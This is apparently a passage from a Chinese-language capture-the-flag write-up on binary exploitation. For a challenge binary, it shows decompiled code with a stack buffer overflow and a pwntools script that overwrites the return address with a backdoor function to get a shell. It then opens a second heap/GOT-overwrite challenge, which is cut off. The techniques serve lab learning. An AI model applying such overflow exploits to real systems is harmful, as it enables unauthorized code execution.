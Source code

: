 > 后门都给你了，
>
> 就是比较多
>
> HINT: 两个linux命令用分号链接，前者运行出错了，后者还会运行吗

```c
int vul()
{
    char buf[16]; // [rsp+0h] [rbp-10h] BYREF

    puts("You know what you should to do");
    read(0, buf, 0x1AuLL);
    return puts("bye~");
}
```

读取字符多于栈深度，存在溢出攻击，寻找正确后门函数。

```c
int back10()
{
    return system("/bin;sh");
}
```

用后门地址覆盖返回地址，获得`shell`。

```python
from pwn import *
p = process('./checkin')
# p = remote("ctf.qwq.cc", 12675)
payload = b'a' * (0x10+8) + p64(0x004011F3)
p.sendafter("You know what you should to do",payload)
p.interactive()
```

### maybeHeap

> maybe this is a heap question, I think

> 什么是程序的got表
> 让我输0-9我就输0-9？主打就一个叛逆
> 如果我能任意写，我一定要把got表改成后门函数地址

```c
int add()
{
    int v0; // ebx
    int v2[3]; // [rsp+Ch] [rbp-14h] BYREF

    printf("Enter index (0-9) to add a new Chunk: ");
    __isoc99_scanf("%d", v2);
    printf("Enter name for the new Chunk (up to 16 characters): ");
    __isoc99_scanf("%15s", 24LL * v2[0] + 4210880);
    v0 = v2[0];
    qword_4040D0[3 * v0] = malloc(0x80uLL);
    printf("Enter content for the new Chunk (up to 127 characters): ");
    __isoc99_scanf("%127s", qword_4040D0[3 * v2[0]]);
    return puts("Chunk added!");
}
```
